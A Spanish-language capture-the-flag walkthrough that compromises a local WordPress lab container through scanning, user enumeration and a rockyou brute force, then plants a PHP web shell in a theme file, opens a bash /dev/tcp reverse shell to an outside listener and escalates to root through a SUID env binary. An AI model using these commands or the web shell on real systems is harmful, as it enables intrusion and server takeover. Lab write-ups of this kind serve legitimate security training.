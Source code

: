 Primero haremos un escaneo de la ip víctima para ver que servicios están corriendo en los puertos abiertos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que tenemos el puerto 80 abierto que corresponde a un servidor apache. Vamos a ver que contiene.
![alt text](image-1.png)

Vemos que contiene la página por defecto de apache, así que vamos a hacer un fuzzing de la web para ver si teine directorios o archivos ocultos.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium-txt -x html,php,txt
```
![alt text](image-2.png)

Vemos que hay un directorio llamado wordpress, así que vamos a ver que nos muestra.
![alt text](image-3.png)

Vemos que nos mustra una plantilla, así que vamos a enumerar la página wordpress.
```
wpscan --url http://172.17.0.2/wordpress
```
![alt text](image-4.png)

Vemos que está todo correcto, vamos a intentar sacar el usuario administrador de wordpress.
```
wpscan --url http://172.17.0.2/wordpress -e u
```
![alt text](image-5.png)

Vemos que al final del escaneo nos muestra el usuario que es `mario`. Ahora vamos a relizar un ataque de fuerza bruta para sacar su password.
```
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```
![alt text](image-6.png)

Vemos que la credencial del usuario `mario` es `love`. Así que nos dirigiremos a la ruta `http://172.17.0.2/wordpress/wp-admin` y lo introduciremos.
![alt text](image-7.png)

Vemos que ya tenemos el control total del wordpress, ahora nos intentaremos crear una webshell para poder realizar una revershell. Para ello nos situaremos en el editor de codigo del tema y en el archivo index.php, lo borraremos todo y escribiremos lo siguiente:
```
<?php
    system($_GET['CMD']);
?>
```
![alt text](image-8.png)

Una vez lo hayamos escrito guardamos cambios y nos vamos a la ruta del tema y escribimos lo que hemos puesto dentro del &_GET.
```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?CMD=id
```
![alt text](image-9.png)

Si nos ejecuta el comando de servidor, entonces vamos a realizar la revershell. Para ello, nos pondremos a la escucha desde una terminal:
```
nc -lnvp 6969
```
![alt text](image-10.png)

Despues del símbolo igual, escibiremos lo siguiente encodeado en url:
```
bash -c 'exec bash -i &>/dev/tcp/192.168.80.132/6969 <&1'
```
![alt text](image-11.png)

Veremos que en nustra terminal se nos ha generado la shell, vamos a realizar un tratamiento de la tty para evitar problemas en la escalada de privilegios.
```
script /dev/null -c bash
Cntl + Z
stty  raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```
Ahora vamos a intentar conseguir los máximos permisos posibles.
```
find / -perm -4000 2>/dev/null
```
![alt text](image-12.png)

Vemos que nos podemos aprovechar del binario env.
```
/usr/bin/env /bin/bash -p
```
![alt text](image-13.png)